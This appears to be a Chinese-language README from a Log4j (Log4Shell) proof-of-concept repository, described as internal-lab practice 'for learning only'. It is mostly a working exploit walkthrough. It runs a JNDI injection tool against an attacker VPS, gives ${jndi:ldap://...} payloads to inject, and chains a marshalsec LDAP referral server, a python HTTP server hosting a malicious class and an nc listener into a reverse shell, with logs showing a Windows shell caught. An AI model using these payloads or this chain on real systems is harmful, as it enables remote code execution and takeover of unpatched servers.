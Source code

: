 # 以下都是内网学习打的，仅供学习
poc来自 [https://github.com/tangxiaofeng7/apache-log4j-poc](https://github.com/tangxiaofeng7/apache-log4j-poc)
## Apache-Log4j的几种复现方式
## 1、使用./tools/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
vps IP 假设为 10.10.10.10
`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc.exe" -A 10.10.10.10`
```
[root@VM_0_16_centos ~]# java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "ping xx.24b5010c.dns.1433.eu.org" -A 10.10.10.10
[ADDRESS] >> 10.10.10.10
[COMMAND] >> ping xx.24b5010c.dns.1433.eu.org
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://10.10.10.10:1099/1ovanh
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://10.10.10.10:1099/kavkt9
ldap://10.10.10.10:1389/kavkt9
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://10.10.10.10:1099/m5m8wo
ldap://10.10.10.10:1389/m5m8wo
```
然后fuzz `${jndi:ldap://10.10.10.10:1389/kavkt9}` 或者 `${jndi:ldap://10.10.10.10:1389/m5m8wo} `
![](img/2.png)

## 2、反弹shell
试了几个windows的，都是无回显，执行命令磕磕绊绊，最后还是直接反弹了原生shell
我测试了一台windows，使用./src/ExecTemplateJDK7.java 修改里面的host和port为要反弹的地址(如果是linux，使用./src/linux.java就行了,其实就是cmd.exe改成/bin/bash)

然后javac ExecTemplateJDK7.java,生成ExecTemplateJDK7.class


然后在vps上开http服务`python3 -m http.server 9092`,以及监听端口`nc -l 9091`


然后同样在vps上 `java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://10.10.10.10:9092/#ExecTemplateJDK7 1389`


最后fuzz ${jndi:ldap://10.10.10.10:1389}
![](img/2.png)

效果是jndi上收到请求消息
`Send LDAP reference result for dd redirecting to http://10.10.10.10:9092/ExecTemplateJDK7.class`


httpserver请求 `[10/Dec/2021 10:04:39] "GET /ExecTemplateJDK7.class HTTP/1.1" 200`


nc收到windows-shell
![](img/1.png)

# 以上都是内网学习打的，仅供学习
